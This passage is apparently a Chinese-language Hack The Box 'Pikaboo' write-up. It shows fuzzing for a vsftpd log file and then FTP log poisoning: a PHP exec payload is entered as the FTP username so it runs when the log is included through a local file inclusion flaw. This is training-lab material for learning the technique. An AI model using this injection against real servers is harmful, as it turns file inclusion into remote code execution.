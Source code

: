 ![](img/649998366a439312735a93f1d9515fba.png)

隐藏文件的 wfuzz

经过几次迭代，我想到了上面的限制输出，所以我们只是做了一些有用的事情。vsftpd.log 文件几乎肯定与我们之前在 Nmap 扫描中发现的 FTP 服务器有关。

让我们来看看:

![](img/c7523b3ab4ff64eac7e8f8989a4a28a3.png)

vsftpd 注销

我们已经检索了 FTP 日志文件，其中显示了用户名 pwnmeow。经过一段时间的观察，我发现了一个漏洞，并找到了这个包含文件的方法。更多信息[在这里](https://shahjerry33.medium.com/rce-via-lfi-log-poisoning-the-death-potion-c0831cebc16d)和[在这里](https://secnhack.in/ftp-log-poisoning-through-lfi/)帮助我想出下一步行动。

我们可以连接到 FTP 服务器，并使用所描述的方法来执行任意代码。首先，让我们测试我们的理论:

```
┌──(root💀kali)-[~/htb/pikaboo]
└─# ftp pikaboo.htb
Connected to pikaboo.htb.
220 (vsFTPd 3.0.3)
Name (pikaboo.htb:kali): <?php exec("/bin/bash -c 'ping -c 4 10.10.14.43'"); ?>
331 Please specify the password.
Password:
530 Login incorrect.
Login failed.
ftp> quit
221 Goodbye.
```

